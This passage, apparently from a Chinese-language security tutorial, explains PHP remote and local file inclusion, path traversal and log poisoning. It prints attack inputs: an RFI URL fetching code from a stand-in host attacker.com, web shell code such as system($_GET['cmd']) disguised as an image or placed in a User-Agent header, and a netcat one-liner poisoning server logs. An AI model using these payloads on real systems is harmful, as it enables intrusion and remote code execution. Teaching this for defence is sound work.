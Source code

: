 #### 远程文件包含 (Remote File Inclusion - RFI)

*   **描述**: 能够通过 URL 地址包含并执行远程服务器上的文件。
*   **影响**: 危害通常比 LFI 更大，因为攻击者可以直接构造一个包含恶意代码的文件放在自己的服务器上，然后让目标服务器包含并执行它，轻松实现任意代码执行。
*   **示例**: `include.php?page=http://attacker.com/evil_script.txt` (注意：被包含的远程文件不一定需要是 `.php` 后缀，只要内容是有效的 PHP 代码即可被执行)
*   **前提条件**: RFI 的利用需要目标服务器 PHP 配置中以下选项开启（在现代 PHP 版本中 `allow_url_include` 默认是关闭的，增加了利用难度）：
    *   `allow_url_fopen = On` (用于访问 URL 对象，默认通常开启)
    *   `allow_url_include = On` (用于 `include/require` 远程文件，默认关闭)

### 文件包含基础：路径操作

理解文件包含漏洞利用的关键在于如何操纵文件路径。

*   **路径遍历字符串 (`../` 或 `..\`)**: 通用遍历字符串 `../` (Unix-like) 或 `..\` (Windows) 用于在文件系统的目录结构中向上导航一级。攻击者使用它来访问目标脚本允许目录之外的文件。
*   **相对路径**: 根据当前工作目录定位文件。例如，`include('includes/db.php')` 指向当前目录下 `includes` 子文件夹中的 `db.php`。
*   **绝对路径**: 从文件系统的根目录开始指定完整路径。例如，`/var/www/html/config.php` 或 `C:\inetpub\wwwroot\config.php`。

### 常见利用技巧与绕过方法 (Common Exploitation Techniques and Bypass Methods)

#### 1. 结合文件上传 (Combining with File Uploads)

当 LFI 存在但 RFI 不可用时，如果存在文件上传功能，攻击者可以尝试上传包含恶意代码的文件，然后通过 LFI 包含执行。

*   **绕过上传限制**:
    *   **伪造图片头**: 在 PHP 脚本内容前添加图片文件头标识 (如 `GIF89a`)，使其看起来像一个合法的图片文件，可能绕过基于文件类型的检查。
        ```php
        GIF89a
        <?php phpinfo(); ?>
        ```
    *   **命令行合并 (Windows)**: 使用 `copy /b image.png + shell.php webshell.png` 将图片和脚本二进制合并。
    *   **元数据注入**: 使用工具 (如 `exiftool`) 将 PHP 代码写入图片的 EXIF 元数据或其他允许的位置。
*   **利用**: 上传成功后，获取上传文件的服务器路径（可能需要猜测或通过其他方式泄露），然后使用 LFI 包含该文件，例如 `?page=../../uploads/webshell.png`。

#### 2. 日志投毒 (Log Poisoning)

当存在 LFI 漏洞但无法上传文件时，可以尝试将恶意 PHP 代码注入到 Web 服务器的日志文件（如 Apache 的 `access.log` 或 `error.log`）中，然后利用 LFI 包含该日志文件来执行代码。

*   **步骤**:
    1.  **确认日志路径和权限**: 确定日志文件的绝对路径（如 `/var/log/apache2/access.log`, `/var/log/httpd/access_log` 等）。需要确保 Web 服务器进程有权写入该日志，并且 Web 应用进程有权读取该日志。
    2.  **注入恶意代码**: 发送一个特制的 HTTP 请求，将 PHP 代码嵌入到会被记录的部分，如 URL 路径、查询参数、User-Agent 或 Referer 头。
        *   **通过 URL 参数**:
            ```bash
            # 使用 curl 或浏览器访问
            http://vulnerable.com/index.php?page=<?php system('id'); ?>
            # 注意：代码在日志中可能会被 URL 编码，如 < 变成 %3C
            ```
        *   **通过 User-Agent (使用 Burp Suite 或 nc)**:
            ```
            GET / HTTP/1.1
            Host: vulnerable.com
            User-Agent: <?php system($_GET['cmd']); ?>
            ```
        *   **通过 Netcat 直接发送**:
            ```bash
            printf "GET /<?php echo passthru($_GET['c']); ?> HTTP/1.1\nHost: vulnerable.com\n\n" | nc vulnerable.com 80
            ```